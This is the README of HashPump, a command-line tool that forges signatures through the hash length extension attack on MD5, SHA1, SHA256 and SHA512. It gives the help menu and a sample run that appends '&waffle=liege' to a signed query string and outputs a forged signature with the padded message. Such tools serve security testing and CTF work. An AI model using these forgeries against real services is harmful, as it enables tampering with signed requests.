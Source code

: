 HashPump
========

A tool to exploit the hash length extension attack in various hashing algorithms

Currently supported algorithms: MD5, SHA1, SHA256, SHA512

Help Menu
=========

./HashPump -h
HashPump [-h help] [-t test] [-s signature] [-d data] [-a additional] [-k keylength]
     HashPump generates strings to exploit signatures vulnerable to the Hash Length Extension Attack.
     -h --help          Display this message.
     -t --test          Run tests to verify each algorithm is operating properly.
     -s --signature     The signature from known message.
     -d --data          The data from the known message.
     -a --additional    The information you would like to add to the known message.
     -k --keylength     The length in bytes of the key being used to sign the original message with.
     Version 1.0 with MD5, SHA1, SHA256 and SHA512 support.
     <Developed by bwall(@bwallHatesTwits)>

Sample Output
=============

./HashPump -s 6d5f807e23db210bc254a28be2d6759a0f5f5d99 --data count=10\&lat=37.351\&user_id=1\&long=-119.827\&waffle=eggo -a \&waffle=liege -k 14
0e41270260895979317fff3898ab85668953aaa2
count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02(&waffle=liege